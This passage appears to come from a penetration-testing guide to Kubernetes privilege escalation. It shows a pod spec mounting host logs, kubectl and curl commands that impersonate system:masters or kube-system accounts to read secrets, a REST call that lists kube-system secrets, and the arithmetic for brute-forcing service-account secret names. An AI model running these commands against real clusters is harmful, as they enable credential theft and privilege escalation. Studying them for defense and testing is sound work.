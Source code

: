 ```yaml
        claimName: task-pv-claim-vol
  containers:
    - name: task-pv-container
      image: ubuntu:latest
      command: ["sh", "-c", "sleep 1h"]
      volumeMounts:
        - mountPath: "/hostlogs"
          name: task-pv-storage-vol
```

### **Impersonating privileged accounts**

With a [**user impersonation**](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#user-impersonation) privilege, an attacker could impersonate a privileged account.

Just use the parameter `--as=<username>` in the `kubectl` command to impersonate a user, or `--as-group=<group>` to impersonate a group:

```bash
kubectl get pods --as=system:serviceaccount:kube-system:default
kubectl get secrets --as=null --as-group=system:masters
```

Or use the REST API:

```bash
curl -k -v -XGET -H "Authorization: Bearer <JWT TOKEN (of the impersonator)>" \
-H "Impersonate-Group: system:masters"\
-H "Impersonate-User: null" \
-H "Accept: application/json" \
https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

### Listing Secrets

The permission to **list secrets could allow an attacker to actually read the secrets** accessing the REST API endpoint:

```bash
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

### Reading a secret – brute-forcing token IDs

While an attacker in possession of a token with read permissions requires the exact name of the secret to use it, unlike the broader _**listing secrets**_ privilege, there are still vulnerabilities. Default service accounts in the system can be enumerated, each associated with a secret. These secrets have a name structure: a static prefix followed by a random five-character alphanumeric token (excluding certain characters) according to the [source code](https://github.com/kubernetes/kubernetes/blob/8418cccaf6a7307479f1dfeafb0d2823c1c37802/staging/src/k8s.io/apimachinery/pkg/util/rand/rand.go#L83).

The token is generated from a limited 27-character set (`bcdfghjklmnpqrstvwxz2456789`), rather than the full alphanumeric range. This limitation reduces the total possible combinations to 14,348,907 (27^5). Consequently, an attacker could feasibly execute a brute-force attack to deduce the token in a matter of hours, potentially leading to privilege escalation by accessing sensitive service accounts.
